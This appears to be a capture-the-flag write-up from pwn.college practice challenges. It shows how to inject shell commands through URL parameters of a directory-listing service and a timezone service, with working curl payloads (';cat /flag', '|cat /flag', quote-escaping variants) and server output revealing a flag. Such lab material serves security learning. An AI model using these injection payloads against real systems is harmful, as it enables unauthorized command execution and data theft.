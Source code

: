 
###### Dirlister exploit

A simple curl to the web server revealed the dirlister service.
```html
        <html><body>
        Welcome to the dirlister service! Please choose a directory to list the files of:
        <form><input type=text name=directory><input type=submit value=Submit></form>
```
Building from the format of the dirlister service files we can create a CMD injection payload 

`http://challenge.localhost:80/?directory=/challenge;cat%20/flag`

- **`?`**: The question mark starts the query string, signaling the beginning of parameters that the server will receive.
- **`directory=`**: This is a key (or parameter name) named `directory`.
- **`/challenge;cat%20/flag`**: This is the value associated with the `directory` key that will cat the flag file. 

Similar to the previous challenge the flag can be found using cat /flag, but the server rules are not different. We can no longer use ;
```
:~$ curl http://challenge.localhost/?directory=challenge%7ccat%20/flag

        <html><body>
        Welcome to the dirlister service! Please choose a directory to list the files of:
        <form><input type=text name=directory><input type=submit value=Submit></form>
        <hr>
        <b>Output of: ls -l challenge|cat /flag</b><br>
        <pre>pwn.college{glra8MLAlV6cxZkdr6LRJZahPlO.dRjN1YDLwYjN5czW}
ls: cannot access 'challenge': No such file or directory
</pre>
        </body></html>
```
Using the command:
`curl http://challenge.localhost/?directory=challenge%7ccat%20/flag`
Due to not being able to use ; we instead use the pipe command to cat /flag using URL encoding 
**`| cat /flag`**= `%7ccat%20/flag`

The next example includes a ' character that will need to be manipulated to allow the cat command to be piped.
Using the command:
`curl "http://challenge.localhost/?directory=challenge%27%7ccat%20/flag%27"`
- `%27` was added after challenge to recreate `ls -l 'challenge' | cat /flag`


###### Web-Server timezone exploit

The next exploit can be done through a web servers, date and time settings.
Using command injection and having knowledge of the timers code, we can manipulate the query
```html
<form><input type=text name=timezone><input type=submit value=Submit></form>
```
`curl http://challenge.localhost/?timezone=UTC%7ccat%20/flag`
- we know `name = timezone` so using the url `/?timezone=UTC` specifies the location where the command injection will be made.
- Knowing the flags location at /flag, we can follow previous techniques and inject the command `|cat /flag` by using the URL encoded version `%7ccat%20/flag`





